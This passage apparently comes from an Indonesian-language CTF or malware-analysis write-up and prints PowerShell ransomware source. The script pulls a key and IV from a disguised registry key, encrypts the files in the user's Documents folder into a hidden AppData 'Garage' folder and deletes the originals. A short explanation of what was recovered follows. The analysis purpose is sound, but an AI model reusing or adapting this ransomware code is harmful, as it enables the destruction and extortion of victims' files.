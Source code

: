 ```powershell

    # Remove the original file
    Remove-Item -Path $D783C0
}

# Define paths
$18FDDF = "C:\Users\" + $Env:UserName + "\Documents"
$F9C9CA = $18FDDF
$069690 = "C:\Users\" + $Env:UserName + "\AppData\Local\Microsoft\Garage"

# Create the directory if it doesn't exist
try {
    New-Item -Path $069690 -ItemType Directory -ErrorAction Stop
} catch [System.IO.IOException] {
    "Already Exist!"
}

# Registry path for storing/retrieving key and IV
$069E60 = "HKCU:\Software\Microsoft\Windows NT\CurrentVersion\02e7a9afbb77"

# Retrieve the encryption key and IV from the registry
$6766A9 = (Get-ItemProperty -Path $069E60 -Name "59e2beee1b06")."59e2beee1b06"
$92EE28 = (Get-ItemProperty -Path $069E60 -Name "076a2843f321")."076a2843f321"

# Output the encryption key
Write-Output $6766A9

# Check if registry path exists, and create it if not
if (-not (Test-Path -Path $069E60)) {
    New-Item -ItemType Directory -Path $069E60
}

# Get all files in the Documents directory
$1F8435 = Get-ChildItem -Path $F9C9CA -File

# Encrypt each file
foreach ($C9B5EC in $1F8435) {
    $D783C0 = $C9B5EC.FullName
    $EC38E1 = Join-Path -Path $069690 -ChildPath $C9B5EC.Name
    Encrypt-File $D783C0 $EC38E1 $6766A9 $92EE28
}


# Output completion message
Write-Output "dones"
```

Ransomware tersebut melakukan encrypt file pada folder Documents lalu menghapusnya. Setelah itu file yang di-encrypt akan di-store pada folder "`C:\Users\`" + `$Env:UserName` + "`\AppData\Local\Microsoft\Garage`" dan ketika kami periksa terdapat beberapa file yang salah satunya adalah file pdf yang telah di-encrypt.

